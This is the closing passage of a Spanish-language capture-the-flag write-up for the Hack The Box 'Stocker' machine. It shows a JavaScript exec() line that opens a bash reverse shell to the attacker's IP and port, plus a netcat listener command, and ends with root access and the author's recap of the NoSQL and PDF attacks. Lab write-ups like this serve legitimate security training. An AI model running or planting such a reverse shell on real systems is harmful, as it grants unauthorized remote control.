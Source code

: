 ```js
...
exec('bash -c "bash -i >& /dev/tcp/10.10.14.18/4433 0>&1"', (error, stdout, stderr) => {
...
```

En nuestra máquina nos ponemos en escucha mediante **netcat** por el puerto **4433** (`nc -lvp 4433`).

Yyyy ahora volvemos a ejecutar el permiso contra el archivo (que ahora si existe) a ver si nos envía la **bash** hacia la **IP** y **puerto** donde estamos escuchando...

EJECUTAMOOOOOOS yyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/stocker/523bash_netcat_rootRevSH.png" style="width: 100%;"/>

TENEMOS UNA REVERSE SHELL COMO EL USUARIO `root` (::: Veamos las flags.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/stocker/523flags.png" style="width: 100%;"/>

Y hasta acá llegamos en el writeup ;)

...

Me gusto mucho la intrusión, creo que no me había topado aún con una máquina a la cual se le explotase un **NoSQL**, y menos con **JSON**, así que brutal.

Lo del PDF también me rompió la cabeza, bien chévere y loco el aprovechar ese runtime para que el gestor del **PDF** se ponga travieso e interprete cosas peligrosas.

La escalada también estuvo interesante, mucho más fácil, pero lo veo un fallo muy real de algún usuario o administrador.

Eso fue todo con esta máquina, a practicar mucho y a disfrutar el proceso. Nos leemos después, besitooooooos y a romper de todo!!!!!